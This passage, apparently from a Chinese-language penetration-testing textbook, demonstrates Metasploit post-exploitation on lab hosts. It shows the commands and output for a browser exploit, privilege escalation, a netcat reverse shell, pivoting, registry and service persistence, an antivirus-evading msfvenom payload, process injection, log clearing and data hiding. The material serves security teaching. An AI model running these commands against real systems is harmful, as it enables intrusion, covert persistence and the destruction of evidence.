msf exploit(osx/browser/mozilla_mchannel) > show options
```

模块选项 (exploit/osx/browser/mozilla_mchannel)：

| 名称 | 当前设置 | 必需 | 描述 |
| :--- | :--- | :--- | :--- |
| SRVHOST | 0.0.0.0 | 是 | 要监听的本地主机。这必须是本地计算机上的地址或 0.0.0.0 |
| SRVPORT | 8080 | 是 | 要监听的本地端口。 |
| SSL | false | 否 | 为传入连接协商 SSL |


## Firefox exploit 模块在 msfconsole 中（续）

- SSL Cert 否 自定义 SSL 证书的路径（默认随机生成）
- URIPATH 否 此漏洞利用使用的 URI（默认随机）

漏洞利用目标：

| ID | 名称 |
|---|---|
| 0 | Firefox 3.6.16 在 Mac OS X 上 (10.6.6, 10.6.7, 10.6.8, 10.7.2 和 10.7.3) |

```
msf exploit(osx/browser/mozilla_mchannel) > exploit
[*] Exploit running as background job 0.

[*] Started reverse TCP handler on 192.168.86.62:4444
msf exploit(osx/browser/mozilla_mchannel) >
[*] Using URL: http://0.0.0.0:8080/42hKAQwClk0t
[*] Local IP: http://192.168.86.62:8080/42hKAQwClk0t
[*] Server started.
```

你会在这里看到一些内容。此漏洞利用会启动一个服务器。这意味着你需要指明服务器应监听的 IP 地址以及端口。默认情况下，服务器将监听 0.0.0.0，这意味着系统上的每个 IP 地址。你也可以指定端口。监听低于 1024 的端口需要管理员权限。默认情况下，该模块监听 8080 端口。服务器启动时，会随机生成一个 URL，不过如果你愿意，可以在选项中提供一个 URL。服务器启动后，模块会提供该 URL。

启动漏洞利用还会创建一个监听器，用于处理来自目标系统的返回连接。如果漏洞被利用，返回连接来自传递给目标的有效载荷，该载荷在目标建立连接时传递。这意味着你需要将 URL 发送给目标。有几种方法可以做到这一点，包括发送带有模糊 URL 的电子邮件，因为包含 :8080 然后跟随随机字符串之类元素的 URL 可能会引起怀疑。这并不是说你必须使用随机字符串或不寻常的端口。你也可以在你期望目标定期访问的网页中创建一个链接。通过将 URL 放在 IMG 标签之类的页面元素中，该 URL 可以自动加载。遇到该标签的浏览器将向提供的 URL 发出 GET 请求。

一旦你让受害者访问该 URL，其浏览器会发出一个由 Metasploit 处理的请求。该模块应将漏洞利用代码发送到浏览器。如果漏洞利用成功，它应该向漏洞利用启动的处理程序发起一个返回连接。你从该连接中得到的是系统上的 shell。由于该漏洞利用针对的是 MacOS (OSX) 系统，而 MacOS 使用类 Unix 操作系统和用户空间，你将得到一个 Bash shell，在其中可以发送命令。此特定漏洞利用不支持 Meterpreter 有效载荷。
获得系统访问权限只是攻击者会做的一部分，因此也是你作为道德黑客会做的一部分。获得访问权限仅仅是开始。

## 后利用

你现在已经在系统上立足。你能用它做什么取决于你攻破了什么。如果你攻破的远程服务权限有限，你可能只有有限权限。你只能执行你有权限执行的任务。这意味着你可能需要将权限提升到比你现有权限更高的用户。
获取 root 或管理员权限是攻击者的常见目标，因为这有助于他们跳转到其他系统并在环境中横向移动。你也可能更有机会收集密码和其他你可能需要用于其他任务的关键系统信息。

你不仅在系统上立足，而且该系统还让你在网络上立足。你可能会发现，尤其是如果你攻破了向外部世界提供服务的系统，该系统连接到不止一个网络。这意味着你可以使用被攻破的系统作为通往那些其他网络的网关。这被称为跳板（pivoting）的技术，即从被攻破的系统跳转来查看另一组系统。这将让你深入网络，并可能获得更多敏感信息或访问更多关键系统的权限。

攻击者还会寻求持久访问系统的权限。这可能涉及多种活动，从创建用户到安装后门。除了持久访问，攻击者还会想要掩盖自己的行踪。这可能意味着在系统上的某些位置隐藏数据。它可能意味着操纵日志。它也可能意味着操纵系统二进制文件以帮助隐藏你的存在。

## 权限提升

你的任务，如果你选择接受的话，就是获取 root 级访问权限。曾经有一段时间，服务在 Unix/Linux 系统上以 root 身份运行，或在 Windows 系统上以 LocalSystem 身份运行，这是一个具有非常高权限级别的账户。一旦你获得 root 级访问权限，你应该能够访问系统上的所有信息，以及修改服务和操纵用户。这意味着你需要先获得对系统的访问权限，然后你需要运行另一个漏洞利用来提升权限。
我们可以继续使用 Metasploit 来做这一点，所以让我们从一个带有 Meterpreter shell 的被攻破系统开始。如果我们使用 background 将 shell 放入后台，我们就可以利用打开的会话作为与系统交互的方式。

我们需要识别一个本地漏洞利用。实现此目的的一种方法是使用 Python 脚本 windows-exploit-suggester.py。这是一个可以从 GitHub 下载的脚本。除了 Python 解释器之外，运行它还需要一些东西。第一个是 systeminfo 的输出。第二个是包含 Microsoft 安全公告 (MSSB) 信息的数据库。为了获得第一个，我们将从被攻破的 Windows 系统中提取它。我们可以从 Meterpreter 进入 Windows shell 并运行 systeminfo，将输出重定向到文件，然后我们可以将该文件拉回到本地系统。你可以在下面的清单中看到该过程。

### 获取系统补丁信息

```
meterpreter > shell
Process 3 created.
Channel 3 created.
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\Program Files\elasticsearch-1.1.1>systeminfo > patches.txt

C:\Program Files\elasticsearch-1.1.1>exit

meterpreter > download patches.txt
[*] Downloading: patches.txt -> patches.txt
[*] Downloaded 2.21 KiB of 2.21 KiB (100.0%): patches.txt -> patches.txt
[*] download : patches.txt -> patches.txt
```

获得补丁信息后，我们可以继续使用 windows-exploit-suggester。我们将获取一个更新的 MSSB 数据库，然后用我们的两个文件运行该脚本，查找本地漏洞利用。你可以在下一个代码清单中看到运行脚本的过程。我们将得到一份可能针对我们被攻破系统运行的本地漏洞利用列表。它不提供关于 Metasploit 模块的任何详细信息，这意味着我们仍然需要为此进行一些搜索。但是，如果你想了解更多关于漏洞和漏洞利用的信息，它确实提供了资源。

### 获取本地漏洞利用建议

```
root@quiche:~# ./windows-exploit-suggester.py --update
[*] initiating winsploit version 3.3...
[+] writing to file 2018-09-09-mssb.xls
[*] done
root@quiche:~# ./windows-exploit-suggester.py -i patches.txt -d 2018-09-09-mssb.xls -l
[*] initiating winsploit version 3.3...
[*] database file detected as xls or xlsx based on extension
[*] attempting to read from the systeminfo input file
[+] systeminfo input file read successfully (ascii)
[*] querying database file for potential vulnerabilities
[*] comparing the 2 hotfix(es) against the 407 potential bulletin(s) with a database of 137 known exploits
[*] there are now 407 remaining vulns
[*] searching for local exploits only
[+] [E] exploitdb PoC, [M] Metasploit module, [*] missing bulletin
[+] windows version identified as 'Windows 2008 R2 SP1 64-bit'
[*]
[M] MS16-075: Security Update for Windows SMB Server (3164038) - Important
[*] https://github.com/foxglovesec/RottenPotato
[*] https://github.com/Kevin-Robertson/Tater
[*] https://bugs.chromium.org/p/project-zero/issues/detail?id=222 -- Windows: Local WebDAV NTLM Reflection Elevation of Privilege
--- snip ---
[E] MS14-026: Vulnerability in .NET Framework Could Allow Elevation of Privilege (2958732) - Important
[*] http://www.exploit-db.com/exploits/35280/, -- .NET Remoting Services Remote Command Execution, PoC
[*]
[*] done
```

一些建议的漏洞利用无法在 Windows on Windows (WoW) 64 上运行。这是一个允许 32 位 Windows 可执行文件在 64 位 Windows 安装上执行的子系统。漏洞利用需要能够在该子系统中运行，并且仍然能够利用漏洞。由于 64 位 Windows 上有额外的软件层，某些漏洞利用根本无法工作。我们将使用 MS16-032 漏洞。我们需要识别与该漏洞关联的 Metasploit 模块，这意味着我们可以只搜索 Microsoft 漏洞，如下面的代码清单所示。搜索该漏洞会返回单个模块。

### 搜索本地漏洞利用

```
msf exploit(windows/local/ms15_051_client_copy_image) > search MS16-032
```

| 名称 | 披露日期 | 等级 | 描述 |
| :--- | :--- | :--- | :--- |
| exploit/windows/local/ms16_032_secondary_logon_handle_privesc 二级登录句柄权限提升 | 2016-03-21 | normal | MS16-032 |

```
exploit(windows/local/ms15_051_client_copy_image) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
```

请记住，此时我们已经与目标系统建立了一个会话。为了使用本地漏洞利用，我们需要设置我们打开的会话编号。如果你不知道该使用哪个会话编号因为已经跟丢了，你可以直接使用 sessions


命令，用于你已将其中的 Meterpreter 会话放入后台。这是一个你需要设置的参数，同时还需要设置有效载荷以及反向 Meterpreter shell 所需的本地主机和端口。你可以看到设置所有必要变量，然后启动漏洞利用。

## 使用来自 Metasploit 的本地漏洞利用

```
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 2
SESSION => 2
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST 192.168.86.57
LHOST => 192.168.86.57
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LPORT 4445
LPORT => 4445
msf exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit

[*] Started reverse TCP handler on 192.168.86.57:4445
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\ManageEngine\DesktopCentral_Server\bin\ROayyKQ.txt...
[*] Compressing script contents...
[+] Compressed size: 3621
[*] Executing exploit script...
```

在某些情况下，我们无法使用 Metasploit。我们需要使用一些外部工具。这可能意味着编译一个漏洞利用程序。在下一个代码清单中，你将看到利用分布式 C 编译器守护进程上的漏洞来攻破 Linux 系统。这使用了一个 Metasploit 模块来执行初始漏洞利用。权限提升需要编译一个 C 程序，使其在目标系统上运行。由于我们无法保证存在 C 编译器，因此该程序在攻击系统上编译。我们的目标是 32 位，而我们的攻击系统是 64 位。这意味着我们需要一组特殊的库，以便从一种目标架构交叉编译到另一种。不过，一旦有了输出，我们就可以将它和一个简单的 shell 脚本放入目录中，从 Web 服务器获取。在这个清单中，你将看到利用目标系统，然后运行权限提升。

## Linux 权限提升

```
msf > use exploit/unix/misc/distcc_exec
msf exploit(unix/misc/distcc_exec) > set RHOST 192.168.86.66
RHOST => 192.168.86.66
msf exploit(unix/misc/distcc_exec) > exploit

[*] Started reverse TCP double handler on 192.168.86.57:4444
[*] Accepted the first client connection...
[*] Accepted the second client connection...
```

```
[*] Command: echo 9LVs5a2CaAEk29pj;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "9LVs5a2CaAEk29pj\\r\\n"
[*] Matching...
[*] A is input...
[*] Command shell session 1 opened (192.168.86.57:4444 -> 192.168.86.66:47936)
at 2018-09-09 18:28:22 -0600
```

```
whoami
daemon
cd /tmp
ps auxwww | grep udev
root      2663  0.0  0.1  2216  700 ?        S<s  Apr24   0:00 /sbin/udevd
--daemon
daemon    6364  0.0  0.1  1784  532 ?        RN   11:54   0:00 grep udev
./escalate 2662
```

你在这里看不到下载所需的两个文件。其中一个就是漏洞利用程序本身，名为 escalate。另一个是名为 run 的简单 shell 脚本。它的作用是使用 netcat 将 shell 发送回我们的目标系统。在下一个代码清单中，你可以看到我们攻击系统上的反向连接。我们通过使用 netcat 打开一个监听端口来获取反向连接。用作监听端口的端口与 shell 脚本中使用的端口匹配。在权限提升攻击中，我们提供一个比 udev 进程的进程识别号少 1 的数字。这就是触发漏洞利用的东西。

## 使用 netcat 监听反向连接

```
root@quiche:~# netcat -lvp 5555
listening on [any] 5555 ...
192.168.86.66: inverse host lookup failed: Unknown host
connect to [192.168.86.57] from (UNKNOWN) [192.168.86.66] 50391
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP Thu Apr 10 13:58:00 UTC 2008 i686
GNU/Linux
```

这种漏洞利用链通常是获得必要访问权限所必需的。当然，获得管理访问权并非你想要做的全部，尽管这当然很有用。你还可能希望利用你已有的立足点，开始查看网络上的其他系统。

## 端点转发

有些组织采用扁平网络设计，即所有系统都连接到单个网络，而不是多个网络以允许分层访问。但是，关注关键资源安全的组织可能会有系统连接到多个系统。你可能会在攻破一个系统后发现它有多个接口，例如你在下面的代码清单中可以看到的那个系统。该系统是 Windows 系统，它有两个接口。一个在 192.168.86.0 网络上，即漏洞利用进入的接口。另一个接口在清单中名为 Interface 19，位于 172.30.42.0 网络上。这是我们想要攻击的网络，但我们不能只是把一堆攻击工具上传到被攻破的系统。相反，我们需要能够将流量从我们的攻击系统传递通过被攻破的系统，进入它所连接的网络。

## IP 地址配置

```
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > ipconfig

Interface 1
============
Name : Software Loopback Interface 1
Hardware MAC : 00:00:00:00:00:00
MTU : 4294967295
IPv4 Address : 127.0.0.1
IPv4 Netmask : 255.0.0.0
IPv6 Address : ::1
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff

Interface 12
============
Name : Microsoft ISATAP Adapter
Hardware MAC : 00:00:00:00:00:00
MTU : 1280
IPv6 Address : fe80::5efe:c0a8:5621
IPv6 Netmask : ffff:ffff:ffff:ffff:ffff:ffff:ffff:ffff
```

```
Interface 13
==========

Name             : Intel(R) PRO/1000 MT Network Connection
Hardware MAC     : 1e:25:07:dc:7c:6e
MTU              : 1500
IPv4 Address     : 192.168.86.33
IPv4 Netmask     : 255.255.255.0
IPv6 Address     : fe80::35b1:1874:3712:8b59
IPv6 Netmask     : ffff:ffff:ffff:ffff::
```

```
Interface 19
============

Name             : Intel(R) PRO/1000 MT Network Connection #2
Hardware MAC     : 42:39:bd:ec:24:40
MTU              : 1500
IPv4 Address     : 172.30.42.50
IPv4 Netmask     : 255.255.255.0
IPv6 Address     : fe80::4b4:7b9a:b3b7:3742
IPv6 Netmask     : ffff:ffff:ffff:ffff::
```

为了添加我们需要将流量传递到 172.30.42.0 子网的路由，我们需要运行一个后利用模块。我们要运行的模块称为 autoroute，它将负责通过我们打开的会话向该网络添加路由。在下面的清单中，你可以看到运行 autoroute 模块。你将看到输出，指示路由已作为运行模块的结果添加。

## 运行 Autoroute

```
meterpreter > run post/multi/manage/autoroute SUBNET=172.30.42.0 ACTION=ADD

[!] SESSION may not be compatible with this module.
[*] Running module against VAGRANT-2008R2
[*] Adding a route to 172.30.42.0/255.255.255.0...
[+] Route added to subnet 172.30.42.0/255.255.255.0.
```

既然路由已就位，我们想要利用它。此时我们可以将 Meterpreter 会话置于后台，并针对该网络运行我们选择的任何模块。例如，针对该网络运行端口扫描并不奇怪。在下面的代码中，你可以看到在会话置于后台后从 Meterpreter 外部检查路由表（你可以使用 background 命令或键入 Ctrl+Z 将 Meterpreter 置于后台）。路由表显示我们有一条通过会话 1（即我们打开的 Meterpreter 会话）到达 172.30.42.0 网络的路由。之后，端口扫描模块被加载以针对该网络运行。

```
msf exploit(windows/http/manageengine_connectionid_write) > route print
```

IPv4 活动路由表

| 子网 | 子网掩码 | 网关 |
| :--- | :--- | :--- |
| 172.30.42.0 | 255.255.255.0 | 会话 1 |

[*] 当前未定义任何 IPv6 路由。

```
msf exploit(windows/http/manageengine_connectionid_write) >
```

```
msf exploit(windows/http/manageengine_connectionid_write) > use auxiliary/scanner/portscan/tcp
```

```
msf auxiliary(scanner/portscan/tcp) > set RHOSTS 172.30.42.0/24
```

```
RHOSTS => 172.30.42.0/24
```

```
msf auxiliary(scanner/portscan/tcp) > run
```

一旦你了解另一个网络上有哪些其他系统，就可以开始查找这些系统上的漏洞。端点转发的一切都是关于获取一个被攻破的系统并使用它来访问其他系统，即端点转发到这些系统。一旦你的网络路由就位，你就可以很好地完成该端点转发，从而将你的覆盖范围扩展到网络中。

## 持久化

获得访问权很重要，因为它证明你可以攻破系统并访问敏感信息。这是向你正在合作的组织展示他们存在哪些问题的好方法。但是，攻击者不希望每次想要访问系统时都要反复利用同一个漏洞。首先，这很耗时。其次，如果攻击者（即使是假攻击者，即你）正在利用一个漏洞，他们无法确定该漏洞不会被修补。这意味着他们之后可能无法进入。收集信息可能不是一次性的情况。当然，在企业环境中，数据在不断变化。无论攻击者的目标是什么，他们通常都希望保持对被攻破系统的访问权。

维持访问权的过程称为持久化。对系统的访问权随时间持续，并且理想情况下跨系统重新启动。无论发生什么，理想情况下，

攻击者仍然可以在他们想要的时候进入系统。有几种技术可以做到这一点。如果系统有远程访问，例如安全外壳 (SSH) 或 Windows 系统上的远程桌面，攻击者可能只需创建一个具有远程登录能力的新用户。如果受攻破的用户更改了密码或用户帐户被删除，新用户将可供攻击者使用。

另一种选择是安装会主动连接到攻击者系统的软件。这通常是最佳方法，因为可能已部署防火墙来阻止入站连接尝试，但出站连接通常被允许。因此，我们可以安装一个反向 shell 包，如果我们有侦听器在等待，它就会连接回我们的系统。在下一个代码清单中，您可以看到从 Meterpreter 会话开始，并安装一个在用户登录时启动的程序。这种特定的持久化机制使用注册表来存储有效载荷。注册表中 HKEY_CURRENT_USER 下的 Run 键随后被加载以调用有效载荷。

### Registry persistence from Metasploit

```
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
meterpreter > background
[*] Backgrounding session 1...
msf exploit(windows/http/manageengine_connectionid_write) > use exploit/windows/local/registry_persistence
msf exploit(windows/local/registry_persistence) > set SESSION 1
SESSION => 1
msf exploit(windows/local/registry_persistence) > exploit

[*] Generating payload blob..
[+] Generated payload, 5968 bytes
[*] Root path is HKCU
[*] Installing payload blob..
[+] Created registry key HKCU\Software\h02pqzTh
[+] Installed payload blob to HKCU\Software\h02pqzTh\kASCvdw3
[*] Installing run key
```

此过程使用注册表存储可执行二进制数据块，且无法控制存储和执行的内容。您也可以创建自己的可执行文件并应用注册表技术。您只能无法使用上面显示的模块。要创建独立的可执行文件，可以使用 Metasploit 的一部分 msfvenom 程序。在下一个代码清单中，您可以看到 msfvenom 运行示例。这采用了 windows/meterpreter/reverse_tcp 有效载荷，它会将连接发送回指定 IP 地址上的 Meterpreter shell。

## 使用 msfvenom 创建独立有效载荷

```
root@quiche:~# msfvenom -p windows/meterpreter/reverse_tcp
LHOST=192.168.86.57 LPORT=3445 -f exe -e x86/shikata_ga_nai -a x86 -i 3 -o
elfbowling.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows
from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai succeeded with size 395 (iteration=1)
x86/shikata_ga_nai succeeded with size 422 (iteration=2)
x86/shikata_ga_nai chosen with final size 422
Payload size: 422 bytes
Final size of exe file: 73802 bytes
Saved as: elfbowling.exe
root@quiche:~# ls -la elfbowling.exe
-rw-r--r-- 1 root root 73802 Sep 12 17:58 elfbowling.exe
```

命令行参数中看到的大部分内容都相当简单。我们正在为 x86 32 位 Windows 系统创建一个 .exe 文件。有效载荷将连接到 192.168.86.57 的 3445 端口。要在目标系统上使用 Meterpreter，您需要启动一个侦听器。作为对几十年前几款傻乎乎游戏的致敬，我将其命名为 elfbowling.exe。也许看到它的人不会多想。除了将有效载荷封装为符合可移植可执行格式的 .exe 文件外，该 .exe 还经过编码。编码的目的是隐藏它以躲避防病毒程序。

创建持久连接还有其他方法。另一种是使用 Metsvc。这是 Meterpreter 服务。它默认在端口 31337 上创建一个侦听器，可以连接到它以获取 Meterpreter shell。您会注意到 Metasploit 提到 Meterpreter 脚本已弃用。相反，我们应该加载模块并使用它们。不过，目前 Meterpreter 服务仍然可用，可以用于获取访问权限，只要您能通过可能存在的任何防火墙连接到指定端口即可。

## 在目标上创建 Meterpreter 服务

```
meterpreter > run metsvc
[!] Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
[!] Example: run post/windows/manage/persistence_exe OPTION=value [...]
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Windows\SERVC~2\LOCALS~1\
AppData\Local\Temp\KrUJwjIQb... [*] >>> Uploading metsrv.x86.dll...
[*] >>> Uploading metsvc-server.exe...
[*] >>> Uploading metsvc.exe...
[*] Starting the service...
```

如所述，Meterpreter 服务期望您能够进行入站连接。此外，Meterpreter 服务脚本已弃用，可能很快会从 Metasploit 中删除。相反，我们可以使用 Metasploit 指向我们的模块。在下一个代码清单中，您将看到该模块的用法。它要求您有一个可上传并安装到目标系统的可执行文件。此处提供的是上面有效载荷创建的输出。这是从 msfvenom 创建的反向 Meterpreter 可执行文件。您将看到 Meterpreter 将有效载荷上传到目标系统并创建持久化可执行文件。随后会创建注册表项，以便在用户登录时自动运行持久化可执行文件。您可以从对 HKCU 的引用中看到这一点，HKCU 是 HKEY_CURRENT_USER，即注册表中与已登录用户相关的所有内容的位置。

## 使用 Metasploit 模块进行持久化

```
meterpreter > run post/windows/manage/persistence_exe REXEPATH=/root/elfbowling.exe

[*] Running module against VAGRANT-2008R2
[*] Reading Payload from file /root/elfbowling.exe
[*] Persistent Script written to C:\Windows\SERVC~2\LOCALS~1\AppData\Local\Temp\default.exe
[*] Executing script C:\Windows\SERVC~2\LOCALS~1\AppData\Local\Temp\default.exe
[+] Agent executed with PID 5672
[*] Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\qWQPRsRzw
[+] Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\qWQPRsRzw
[*] Cleanup Meterpreter RC File: /root/.msf4/logs/persistence/VAGRANT-2008R2_20180912.4749/VAGRANT-2008R2_20180912.4749.rc
```

这为我们提供了许多在初始入口点之后保留对目标系统访问权限的方式。不过，您可能已注意到，这些持久化机制会在目标系统中引入文件和注册表项。这些操作和痕迹可能会被检测到，前提是终端上有检测机制，或者有人在关注终端上的活动。这是一个需要考虑的问题。在调查终端时，您可能会注意到目标上是否存在恶意软件检测或其他类型的检测软件。

## 隐藏痕迹

每次作为渗透测试或安全评估的一部分获得对系统的访问权限时，您都会留下足迹。登录系统的行为会留下日志条目。可能需要留在系统上的任何文件或其他痕迹都有被定位并标记为恶意的潜在风险。这意味着您的行为可能会被调查，您的立足点可能会被移除。您将不得不面对一个为您设置了更多障碍的目标，从头再来。这意味着您需要尽力掩盖自己的存在，变得擅长隐藏痕迹。

不过，隐藏和覆盖痕迹有很多方面。首先，一旦您获得对系统的访问权限，很可能正在创建日志。日志可能需要进行调整。您可能需要创建文件。例如，您想在目标系统上放置一个有效载荷。这通常意味着文件系统上有一个文件。您需要一个好方法来隐藏放置在系统上的任何文件。一旦您有了可执行文件，您就会想要运行它。这意味着进程表中会有进程正在执行的证据。任何查看进程表的人都会看到它，这会引起一些调查，即使只是用户在四处窥探。

有时候掩盖痕迹会带来一点模糊性。您会让某事变得稍微难以找到或理解。这有点像试图在开阔的田野里藏起来。您需要尽力掩盖自己，但有人仔细寻找仍然会找到您。

### Rootkit

坦率地说，进程表是最难处理的痕迹。原因是进程表存储在内核空间中。要对进程表做任何事情，您需要能够模糊内核空间中的内容。在大多数现代操作系统中，安全和特权方面存在环模型。您可以获得的最高权限级别是 ring 0，这意味着您处于内核空间。内核需要对系统拥有完全控制权，因为它与硬件交互。操作环境中的其他任何部分都不像内核那样与硬件或如此多的组件进行交互。

与内核交互是通过应用程序编程接口 (API) 完成的。请求通过 API 发送到内核，内核执行请求并将结果返回给发出请求的进程。这意味着，要操作内核空间中的任何内容（例如进程表），您需要通过现有 API 函数向内核发出请求，或者您需要处于内核空间。由于从内核外部操作进程表的唯一方法是创建和终止进程，您实际上无法从内核以外的任何地方隐藏进程的存在。

攻击者通常会使用一组称为 rootkit 的软件来操纵用户所能看到的内容。rootkit 可能包含一个内核模式模块或驱动程序，用于过滤进程表结果。该 rootkit 需要知道随 rootkit 附带的进程的名称或属性，以便可以将其过滤掉。rootkit 还可能包含替换二进制文件，同样过滤文件列表结果，因此任何使用系统二进制文件的人都不会知道文件系统中存在与感染/攻破相关的文件。

不幸的是，rootkit 并不是 Metasploit 或其他攻击工具自带的功能。相反，Metasploit 使用进程编码等策略来躲避恶意软件扫描器，使这些扫描器更难识别您注入的软件。除此之外，如果您能控制正在运行的可执行文件的名称，将其改为不引起怀疑的名称可以帮助保护进程。例如，如果您将其命名为 lsass.exe，任何查看的人都会看到它并不以为意，因为这是 Windows 系统上常见的进程。


## 进程注入

由于我们不想留下任何可以追溯到我们的进程，可以考虑利用另一个进程空间。实现这一点的一种方法是将代码注入现有进程。进程注入的思路是获取攻击者想要运行的代码，然后将其注入现有进程。一旦代码被注入进程，攻击者需要使其运行，这可以通过启动一个使用注入代码的新线程来完成。在 Windows 系统上，这是通过获取进程句柄，然后使用句柄在目标进程中分配内存来实现的。从 Windows API 的角度来看，句柄本质上是指向进程表中进程条目的指针。

一旦攻击者获得句柄并将代码注入进程空间，该代码就可以执行。这意味着代码是在目标进程的进程空间内运行的。代码实际上隐藏在这个新进程中。例如，在下面的清单中，你可以看到一个 Metasploit 模块，它将代码注入到作为模块参数指定的进程中。所选进程是 postgres 进程，这意味着 shellcode 正在数据库服务器的进程空间中运行。正在执行的有效载荷将绑定到一个 TCP 端口，其值默认为端口 4444，因为没有指定其他值作为参数。

## 进程注入模块

```
meterpreter > run post/windows/manage/multi_meterpreter_inject PID=3940
PAYLOAD=windows/shell_bind_tcp
```

```
[*] Running module against VAGRANT-2008R2
[*] Creating a reverse meterpreter stager: LHOST=192.168.86.57 LPORT=4444
[+] Starting Notepad.exe to house Meterpreter Session.
[+] Process created with pid 1296
[*] Injecting meterpreter into process ID 1296
[*] Allocated memory at address 0x00170000, for 328 byte stager
[*] Writing the stager into memory...
[+] Successfully injected Meterpreter into process: 1296
< snip >
msf > connect 192.168.86.25 4444
[*] Connected to 192.168.86.25:4444
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation. All rights reserved.

C:\ManageEngine\DesktopCentral_Server\bin>
```

进程注入完成后，你可以看到 Metasploit 在单独的会话中被用来连接到远程系统，从而获得一个命令提示符 shell。我们可以使用另一种类似的技术，即将我们的初始连接迁移到另一个进程。你可以在下面的清单中看到这种技术。migrate 模块将启动一个包含我们已连接的 Meterpreter 有效载荷的新进程。你会看到我们最初在 Java Server Pages (jsp) 进程中。一旦迁移完成，我们就运行在 notepad.exe 进程的上下文中。这是通过将代码注入 notepad 进程来完成的。

## 使用 Meterpreter 进行进程迁移

```
meterpreter > run post/windows/manage/migrate

[*] Running module against VAGRANT-2008R2
[*] Current server process: Nepql.jsp (5624)
[*] Spawning notepad.exe process to migrate to
[+] Migrating to 6012
[+] Successfully migrated to process 6012
meterpreter >
```

我们通过使用进程迁移想要达到的目标是希望规避端点保护解决方案的检测。任何发生的操作都将从现有且不起疑心的进程空间中执行，即使行为可能是可疑的。与本章讨论的其他技术一样，重要的想法是避免被检测到。在一个不会引起太多注意的进程中运行恶意代码，是保持访问权限而不被检测到的好方法。


## 日志操纵

记录的信息可能是一种好坏参半的事情。在某些情况下，你会遇到几乎不记录任何内容的目标。它们记录的内容也不会在系统之外的任何地方维护。这意味着如果有人想查看，他们能找到任何信息的唯一地方是本地系统。一些组织会为事件做计划，并确保他们不仅有稳健的日志记录政策，而且还将系统日志存储在中心位置，这意味着你对本地系统上的日志所做的任何事情都不会产生影响，因为调查人员将去的地方是中心日志存储库，而且很可能还有一个像 ElasticStack 或 Splunk 这样的日志搜索工具。

处理目标上任何日志的一种简单方法就是清除它们。这意味着在 Windows 系统上的事件日志中你将擦除所有条目，或者在 Linux 或类 Unix 系统中你将只需删除日志文件。我们可以回到 Meterpreter 来完成其中一些工作。一旦我们攻破了 Windows 系统并拥有一个 Meterpreter shell，我们可以使用 clearev 命令。你可以在下面的代码中看到这一点。不过，这种方法的挑战之一是，你需要拥有正确的权限集。

### 使用 Meterpreter 清除事件查看器

```
meterpreter > clearev
[*] Wiping 635 records from Application...
[-] stdapi_sys_eventlog_clear: Operation failed: Access is denied.
meterpreter > getuid
Server username: NT AUTHORITY\LOCAL SERVICE
```

你可以从输出中看到，所使用的攻破没有足够的权限来清除系统事件日志。根据用户 ID，我们拥有的是 LOCAL SERVICE 用户，而不是 LOCALSYSTEM 用户。LOCALSYSTEM 用户将拥有调整日志所需的权限。这个用户权限有限。

在类 Unix 系统上的过程会不同。那里的日志通常以纯文本文件写入。拥有正确权限后，这些文件可以通过擦除它们，甚至进入并删除日志中看起来可能有罪的行来修改。除非系统启用了审计，否则编辑日志是不可检测的，这意味着你可以轻松修改它们而没有任何副作用。你也可以在进入系统时停止 syslog 进程。在与获得访问权限相关的之前发生的任何事情都会被记录，但你将能够在系统上做任何其他事情而不会被记录。同样，如果系统启用了审计，你可以禁用审计守护进程。

### 隐藏数据

隐藏数据是一种常见的活动。有些文件可以隐藏在显而易见之处。例如，在 Windows 系统上，有一些文件存储在临时目录中。对于从 Internet 下载的任何东西尤其如此。图 7.3 显示了 Windows 系统上临时 Internet 文件的目录列表。这不是大多数人会访问的目录，所以把文件放在这里并让它永远不被注意并不困难。

该目录的路径是 C:\Users\username\AppData\Local\Microsoft\Windows\Temporary Internet Files，这里有很多中转站，你可以同样隐藏文件，它们不会被看到。这在一定程度上是因为，默认情况下，这里显示的许多目录在 Windows 资源管理器中是隐藏的，除非你更改设置以显示它们。基本上，AppData 目录中的任何文件都会在大量临时文件和应用程序特定文件中迷失。

在 Linux 系统上，你可以使用点文件和点目录来做同样的事情。点文件的文件名以点开头，例如 .bashrc。常规文件列表不会显示以点开头的文件。同样，你不会看到以点开头的目录。如果你将文件放入其中一个目录中，它们可能会丢失或被忽略。

### 图 7.3 Windows 中的临时 Internet 文件


Windows 系统有一个称为备用数据流（ADS）的功能，它是在新技术文件系统（NTFS）中实现的，以支持将基于 Apple 的磁盘附加到 Windows NT 的情况。在 90 年代初，Windows NT 支持的平台和架构比现在多得多，因此虽然 MacOS 的分层文件系统（HFS）的支持在 Windows 中不再存在，但 ADS 仍然作为一项功能保留。你最常见的会在下载的文件中看到它。它们会被标记为来源区域。这就是关于从 Internet 下载文件并询问你是否要打开它们的弹出窗口的来源。检查 ADS 中的区域，如果它位于 Internet 区域，用户会被询问。

图 7.4 显示创建备用数据流，然后创建显示备用数据流存在的目录列表。并非 Windows 中的所有程序都理解 ADS，这意味着你通常不会使用这些来存储常规使用的文件。它们可以用于存储文件的属性，也可以用于恶意目的。例如，你可能能够将可执行文件存储为备用数据流。你也可以使用 type 命令将可执行文件重定向到 ADS。它就变成了附加到文件名在文件表中的条目的另一个数据流。


